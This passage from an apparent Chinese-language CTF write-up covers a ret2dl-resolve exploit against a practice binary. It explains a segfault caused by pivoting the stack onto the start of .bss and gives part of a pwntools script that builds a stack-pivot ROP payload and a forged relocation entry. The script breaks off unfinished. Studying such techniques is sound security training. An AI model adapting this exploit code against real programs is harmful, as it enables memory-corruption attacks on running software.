 传送reloc没问题

```
EAX=0xf7ffd918 #link_map
EDX=0x1db2 #reloc_argc
```

[![](https://s2.ax1x.com/2019/09/30/uYXsKI.png)](https://s2.ax1x.com/2019/09/30/uYXsKI.png)

然后就进入call 0xf7fe77e0了，应该会读取我们伪造的REL结构了。但是执行到push esi的时候。

一开始以为是我们结构构造错误，但是自己观察报错。

发现提示SIGSEGV，即段错误。

再仔细一看，现在的栈已经下降到了0x804a002了，已经从bss段下降到了其他不可写的段，直接导致了段错误。

主要原因是因为我图方便，把bss的首地址作为了栈顶。解决方案就是在程序开始的时候就大幅度提高栈的地址。#这个图方便导致我卡了一个半个小时

[![](https://s2.ax1x.com/2019/09/30/uYX6qP.png)](https://s2.ax1x.com/2019/09/30/uYX6qP.png)

[![](https://s2.ax1x.com/2019/09/30/uYXyrt.png)](https://s2.ax1x.com/2019/09/30/uYXyrt.png)

于是提高栈空间重新写一下exp

```
# -*- coding: utf-8 -*-
from pwn import *

p=process('./pwn01')
gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

buf=0x804a040
fake_esp=fake_ecx-0x4
base_stage=fake_esp+0x800
read_plt=0xf7ed2b00
stack_size=0x500

gadget1=0x0804851b #pop ebp |ret
gadget2=0x08048519 #  pop esi ; pop edi ; pop ebp ; ret
gadget3=0x080483c5 #
#New stack
payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
#payload+=p32(read_plt)
#payload+=p32(gadget2)
#payload+=p32(0)+p32(base_stage)+p32(100)
payload+=p32(gadget1)
payload+=p32(base_stage)
payload+=p32(gadget3)
payload+=p32(base_stage+stack_size)
#p.sendline(payload)

#struct

plt0=0x80482f0
rel_plt=0x080482b4
reloc_arg=0x804a862-rel_plt #放后面一些，否则会被覆盖
dynsym=0x080481cc
dynstr=0x0804822c
r_offset=0x0804a00c #read_got
r_info=0x107

fake_rel=p32(r_offset)+p32(r_info)
payload+="A"*(0x804a85a-buf-len(payload))
```
